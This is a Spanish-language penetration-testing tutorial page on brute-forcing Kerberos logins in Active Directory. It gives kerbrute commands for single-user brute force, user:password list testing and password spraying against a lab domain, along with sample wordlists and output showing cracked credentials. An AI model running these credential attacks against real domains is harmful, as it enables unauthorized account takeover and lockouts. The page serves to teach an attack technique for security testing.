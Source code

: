 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Fuerza bruta con Kerberos

En esta tecnica lo que vamos a ver es a como identificar la contraseña de un usuario que hayamos encontrado, para realizarle fuerza bruta y saber su contraseña.

Hay que decir que esta tecnica es muy intrusiva y que puede ser detectada por herramientas de seguridad, tambien hay que tener cuidado ya que si algun usuario de los que estamos probando fuerza bruta tiene un limite configurado a nivel de dominio de intentos de contraseñas podemos bloquear a dicho usuario, por lo que hay que tener cuidado.

Para realizar esto haremos lo siguiente:

> passwords.txt

```
Passw0rd
Passw0rd1
Passw0rd2
Passw0rd3
Passw0rd4
Passw0rd5
```

Una vez que hayamos creado un diccionario de contraseñas o lo hayamos extraido de algun sitio en concreto, haremos lo siguiente:

```shell
kerbrute bruteuser -d corp.local --dc 192.168.5.5 passwords.txt empleado1
```

Info:

```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 04:50:52 >  Using KDC(s):
2025/01/14 04:50:52 >   192.168.5.5:88

2025/01/14 04:50:52 >  [+] VALID LOGIN:  empleado1@corp.local:Passw0rd2
2025/01/14 04:50:52 >  Done! Tested 6 logins (1 successes) in 0.183 seconds
```

Vemos que nos coincidio con una contraseña de la lista que seria `Passw0rd2`.

A nivel de red haria lo siguiente, la herramienta envia paquetes con el nombre de usuario, el timestamp y la contraseña de forma cifrada, para ver que respuestas le da `kerberos` si le da un `225` es que esta fallando por que no es la contraseña correcta, pero si por ejemplo en vez de recibir un error, recibe un `AS-REP` que seria un `Replay` de que le contesta significa que la autenticacion fue exitosa, por lo que sabremos que sera esa la contraseña.

Tambien se puede probar con el siguiente formato de contarseñas:

> user\_pass.txt

```
empleado1:passw0rd
empleado2:Passw0rd3
empleado4:Passw0rd4
```

La lista tiene que ser separada con `:` de forma que sea algo asi `username:password` y ejecutar lo siguiente:

```shell
kerbrute bruteforce -d corp.local --dc 192.168.5.5 user_pass.txt
```

Info:

```__
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 05:00:44 >  Using KDC(s):
2025/01/14 05:00:44 >   192.168.5.5:88

2025/01/14 05:00:44 >  [+] VALID LOGIN:  empleado2@corp.local:Passw0rd3
2025/01/14 05:00:44 >  Done! Tested 3 logins (1 successes) in 0.009 seconds
```

Y vemos que coincidio con unas credenciales.

Ahora si queremos probar hacer un `PasswordSpry` osea probar varios nombres de usuario de dominio, frente a una unica contraseña, podremos hacerlo de la siguiente forma:

Utilizaremos el `users.txt` que creamos anteriormente y pondremos lo siguiente:

```shell
kerbrute passwordspray -d corp.local --dc 192.168.5.5 users.txt Passw0rd2
```

Info:

```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 05:03:57 >  Using KDC(s):
2025/01/14 05:03:57 >   192.168.5.5:88

2025/01/14 05:03:57 >  [+] VALID LOGIN:  empleado1@corp.local:Passw0rd2
2025/01/14 05:03:57 >  Done! Tested 7 logins (1 successes) in 0.014 seconds
```

Y vemos que nos saca unas credenciales.
